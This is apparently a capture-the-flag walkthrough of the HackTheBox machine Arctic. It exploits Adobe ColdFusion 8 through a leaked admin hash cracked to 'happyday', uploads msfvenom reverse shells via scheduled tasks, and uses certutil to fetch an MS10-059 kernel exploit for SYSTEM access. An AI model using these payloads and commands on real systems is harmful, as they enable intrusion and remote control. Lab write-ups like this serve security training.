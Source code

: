 # HackTheBox - Arctic - Windows

## Nmap

```
┌──(root💀kali)-[~]
└─# nmap -T4 -sC -sV -O -Pn -p- 10.10.10.11  
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-15 16:14 EDT
Nmap scan report for 10.10.10.11
Host is up (0.022s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 8|Phone|2008|7|8.1|Vista|2012 (92%)
OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_server_2012
Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows 7 or Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft Windows 7 (91%), Microsoft Windows 7 Professional or Windows 8 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (91%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 229.52 seconds
```

## FMTP

- I find this fmtp protocol quite odd. Google was kinda frustrating on this so I just decided to try and go to the service with the browser: http://10.10.10.11:8500/
- And I got this page:  
![image](https://user-images.githubusercontent.com/96747355/163629674-5acab26a-b858-49a7-8cdc-4497677c6ef4.png)  
- Here is the content of the /cfdocs folder  
![image](https://user-images.githubusercontent.com/96747355/163629795-11f40e56-09a0-4cb4-8e01-9e27a15e2d80.png)  
- Let's try to get all files and folders with `wget -r --no-parent http://10.10.10.11:8500/` (it will take a while)
- The files seem to be related to coldfusion which is an adobe tool to develop web app.
- These [slides by Chris Gates](https://paper.bobylive.com/Security/LARES-ColdFusion.pdf) about coldfusion are very useful. This [wiki](https://nets.ec/Coldfusion_hacking) by nets.ec is also very useful
- Another useful article [here](https://www.gnucitizen.org/blog/coldfusion-directory-traversal-faq-cve-2010-2861/)
- We know that it is using Adobe Coldfusion 8:  
![image](https://user-images.githubusercontent.com/96747355/163635400-a11f639e-0316-4fea-9959-e65e2ce159ef.png)  
- version `8,0,1,195765` to be exact:  
![image](https://user-images.githubusercontent.com/96747355/163635508-c709c74e-c14d-4bd0-884c-44eb3ea489da.png)  
- We have a login panel here: http://10.10.10.11:8500/CFIDE/administrator/
- We have the hash of the admin  

```bash
#Wed Mar 22 20:53:51 EET 2017 rdspassword=0IA/F[[E>[$_6& \\Q>[K\=XP \n password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03 encrypted=true 
```

![image](https://user-images.githubusercontent.com/96747355/163635889-e7680cdf-619b-4e4f-b79c-c116d8fe1bef.png)  

- If we go on crackstation.net we can easily find the password `happyday`  

![crackstation](../.res/2022-09-04-07-14-23.png)  

- We can then connect to the panel  

![coldfusion](../.res/2022-09-04-07-18-51.png)  

- If we follow the slides by Chris Gates (page 85), turns out we can get rce using the schedule tasks
- Let's make a reverse shell exe file with msfvenom
  - `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.2 LPORT=4444 -f exe > shell.exe` if you catch it with meterpreter or `msfvenom -p windows/shell/reverse_tcp LHOST=10.10.14.2 LPORT=4444 -f exe > shell.exe` if you catch it with netcat
  - Set up a listener `rlwrap nc -lvp 4444`
  - We server our exe `python3 -m http.server 80`
- Now to execute it we have to click on "Schedule New Task" let's make it every minute and a half (has to be greater than 60 seconds) 
- the url is going to be `http://10.10.14.2/shell.exe`
- Let's try like this for now  
![Scheduled task](../.res/2022-09-04-08-26-35.png)
> For some reason the chars were written in greek so I had to write am and pm in greek... I do not speak greek at all but google showed me how to write `am` in greek. See here: https://www.proz.com/kudoz/english-to-greek/general-conversation-greetings-letters/684823-am-pm.html
  
> NOTE: I found out later that the time does not matter we can basically manually launch the tasks

- Ok another try without the greek chars cause it does not seem to work as well so if I type ony `08:30` instead of `8:37 πμ` the task is scheduled.

![shell2](../.res/2022-09-04-08-36-31.png)  

- Third try  
![3rd try](../.res/2022-09-04-08-48-58.png)  
- This is asking for a valid dir name. We can find some in server settings > Mappings (our file will be uploaded there so make sure to put it somewhere you will easily find it)  
![mappings](../.res/2022-09-04-08-51-34.png)  
- Now we can modify our task accordingly `C:\ColdFusion8\wwwroot\CFIDE\shell.exe`  
![proper path](../.res/2022-09-04-08-53-24.png)  
- Now let's do our system probe (page 87 of the slides)
- We click on define new probe  
![probe](../.res/2022-09-04-09-00-53.png)  
![probe2](../.res/2022-09-04-09-02-32.png)  

> I do not get a shell this way either with meterpreter or nc even though the files are being fetch from my http server.

- Let's try to upload another type of payload and execute it through the directory listing misconfiguration. Let's try jsp (according to the doc "ColdFusion pages and JSP pages can interoperate in several ways" see [here](https://helpx.adobe.com/coldfusion/developing-applications/using-web-elements-and-external-objects/integrating-jee-and-java-elements-in-cfml-applications/interoperating-with-jsp-pages-and-servlets.html) )
- `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.2 LPORT=5555 -f raw > shell.jsp` We generate our jsp shell
- `rlwrap nc -lvp 5555` we set our listener
- We upload it to our target with the scheduled Task
- This time our URL is `http://10.10.14.2/shell.jsp`
- And our output has to be saved like this: `C:\ColdFusion8\wwwroot\CFIDE\shell.jsp`
![jsp upload](../.res/2022-09-04-10-13-39.png)  
- I forgot to mention it before but the time does not really matter because we can just launch a task by clicking on the green icon here in front of the task  
![green icon](../.res/2022-09-04-10-15-38.png)  
- Our shell gets fetch  
![fetch jsp](../.res/2022-09-04-10-16-19.png)  
- And it is in our target  
![jsp in target](../.res/2022-09-04-10-17-08.png)  
- Let's click on it and pray to catch the shell this time :)
- It finally works!!  
![shell](../.res/2022-09-04-10-19-57.png)  
- We get a shell as tolis

```dos
whoami
arctic\tolis
```

- Let's get the user flag  
![get user](../.res/2022-09-04-10-24-10.png)

> Another way (without needing the password) would also have been to use [Metasploit](https://www.exploit-db.com/exploits/16788) or a script like [this one](https://github.com/zaphoxx/zaphoxx-coldfusion/blob/main/2265.py)
> - We would take the python script in our target, 
> - Generate the jsp with msfvenom, 
> - Setup our listener, 
> - And launch the python script that will upload our shell to the target
> - Navigate to the page with our shell

## Privesc

- Let's make a systeminfo and copy the output in a file to find an exploit
- We can use Windows exploit suggester on it `wes --update` first we update the db
- Then we pass it our file `wes sysinfo.txt `
- We can focus on privesc with this command `wes sysinfo.txt | grep -A8 "Elevation of Privilege"`
- We have this here which is also MS10-059

```bash
CVE: CVE-2010-2554
KB: KB982799
Title: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege
Affected product: Windows Server 2008 R2 for x64-based Systems
Affected component: 
Severity: Important
Impact: Elevation of Privilege
Exploit: n/a
```
- Let's take the exploit in our attacking machine `wget https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS10-059/MS10-059.exe`
- We serve it with python web server
- We take it in our target `certutil.exe -urlcache -f http://10.10.14.2/MS10-059.exe MS10-059.exe`
- We set up a listener `rlwrap nc -lvp 5556`
- `MS10-059.exe 10.10.14.2 5556` we run our exploit (we wait a little)
- We have a root shell  
![root shell](../.res/2022-09-04-12-31-53.png)
- We just need to grab the root flag :)  
![root flag](../.res/2022-09-04-12-32-50.png)
